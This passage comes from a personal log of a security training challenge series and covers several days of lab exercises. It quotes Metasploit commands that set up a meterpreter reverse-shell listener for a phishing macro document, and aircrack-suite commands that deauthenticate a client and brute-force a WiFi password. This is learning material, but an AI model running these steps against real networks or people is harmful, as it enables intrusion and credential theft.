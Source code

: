 >We again will use the Metasploit Framework, but this time to listen for incoming connections when a target users opens our phishing Word document. This requires the following commands:
>
> *   Open a new terminal window and run `msfconsole` to start the Metasploit Framework
> *   `use multi/handler` to handle incoming connections
> *   `set payload windows/meterpreter/reverse_tcp` to ensure that our payload works with the payload used when creating the malicious macro
> *   `set LHOST CONNECTION_IP` specifies the IP address of the attacker’s system and should be the same as the one used when creating the document
> *   `set LPORT 8888` specifies the port number you are going to listen on and should be the same as the one used when creating the document
> *   `show options` to confirm the values of your options
> *   `exploit` starts listening for incoming connections to establish a reverse shell

### DAY ELEVEN ###

Oooh! WiFi cracking! Today we got a quick and simple tutorial how to get the password using bruteforce. Need to find the infamous rockyou.txt wordlist hehe

>`sudo airodump-ng wlan2`

>`sudo airodump-ng -c 6 --bssid 02:00:00:00:00:00 -w output-file wlan2` capture

>`sudo aireplay-ng -0 1 -a 02:00:00:00:00:00 -c 02:00:00:00:01:00 wlan2` deauth

>`sudo aircrack-ng -a 2 -b 02:00:00:00:00:00 -w /home/glitch/rockyou.txt output*cap` crack

### DAY TWELVE ###

We're half way there and today was another BurpSuite-focused day but this time with repeater to invoke race condition. Not much to write about it, really.

### DAY THIRTEEN ###

Day thirteen... Unlucky to WebSockets! Another BurpSuite day! It's nothing bad, don't get me wrong! It's fun to learn new ways of using a new tool. And so we learned that we can intercept the WebSocket traffic and modify it before forwarding it with a high possibility of mischief.

### DAY FOURTEEN ###

This one was kind of all over the place. It's supposed to be about certificates and yet has us set up ficticious MiTM setup, adding to `/etc/hosts/` and using some prepared script (I was rushing and didn't have time to tinker with code, might re-visit and check it) to intercept data using... <drumroll> BurpSuite! And that's because we set up proxy in there and were able to capture traffic. I wonder why not use WireShark for that. But it's good to know BurpSuite has that kind of capabilities too.

### DAY FIFTEEN ###

This one was about ActiveDirectory and group policies and whatnot. Had to go through logs and answer some questions, didn't learn too much, really, but that's just me. Some PowerShell tricks were presented to help with investigating and whatnot.

### DAY SIXTEEN ###
